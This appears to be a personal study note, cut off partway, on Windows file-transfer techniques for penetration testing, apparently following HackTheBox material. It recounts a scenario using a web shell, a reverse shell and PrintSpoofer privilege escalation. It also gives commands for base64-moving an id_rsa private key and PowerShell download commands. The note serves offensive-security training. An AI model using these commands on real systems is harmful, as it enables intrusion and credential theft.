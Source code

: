 ```yaml
---
title: File Transfer
published: 2025-03-28
description: For My Reference
tags: [Notes]
category: Notes
author: Me
draft: false
---
```



# 5 - File Transfer

### Windows File Transfer Methods

### Real-World Scenario

- **Context**: During a penetration test, remote code execution (RCE) was achieved on an IIS web server through an unrestricted file upload vulnerability.
    - Initial access: Uploaded a web shell.
    - Next step: Established a reverse shell for system enumeration to escalate privileges.
- **Goal**: Transfer the `PrintSpoofer` binary to exploit `SeImpersonatePrivilege` and gain administrator-level access.
- **Attempts and Solutions**:
    - **PowerShell**: Blocked by an Application Control Policy, preventing script execution.
    - **Certutil**: Attempted to download a compiled binary from GitHub, but strong web content filtering blocked access to external sites (GitHub, Dropbox, Google Drive).
    - **FTP**: Set up an FTP server, but the network firewall blocked outbound traffic on port 21 (TCP).
    - **SMB**: Discovered outbound traffic to TCP port 445 (SMB) was allowed. Used `impacket-smbserver` to host the binary and successfully transferred it to the target, enabling privilege escalation.

### Detailed Techniques

1. **Base64 Encode/Decode**
    - **Use Case**: Transfer small files without network reliance, using a terminal or shell.
    - **Process**:
        - **Source (Pwnbox)**:
            - Check hash: `md5sum id_rsa` → `4e301756a07ded0a2dd6953abf015278`.
            - Encode: `cat id_rsa | base64 -w 0; echo` → Outputs a single-line Base64 string (e.g., `LS0tLS1CRUd...`).
        - **Target (Windows)**:
            - Decode: `PS C:\\htb> [IO.File]::WriteAllBytes("C:\\Users\\Public\\id_rsa", [Convert]::FromBase64String("<base64>"))`.
            - Verify: `PS C:\\htb> Get-FileHash C:\\Users\\Public\\id_rsa -Algorithm MD5` → Ensure hash matches.
    - **Reverse (Upload)**: Encode on Windows with `[Convert]::ToBase64String((Get-Content -Path "<file>" -Raw))`, decode on Pwnbox with `echo "<base64>" | base64 -d > <file>`.
    - **Advantages**: No network required; works in restricted environments with terminal access.
    - **Limitations**:
        - CMD max string length: ~8,191 characters (PowerShell is less restrictive).
        - Large files may fail in web shells due to buffer limits.
    - **Tip**: Use for small binaries or scripts (e.g., SSH keys, configuration files).
2. **PowerShell Web Downloads**
    - **Context**: HTTP/HTTPS (ports 80/443) are often allowed outbound, making web downloads viable.
    - **Tools**: PowerShell’s `Net.WebClient` class or `Invoke-WebRequest` (PowerShell 3.0+).
    - **Methods**:
        - **DownloadFile**:
            - Command: `(New-Object Net.WebClient).DownloadFile('https://<URL>', 'C:\\htb\\file.exe')`.
            - Use: Downloads directly to disk.
        - **DownloadString (Fileless)**: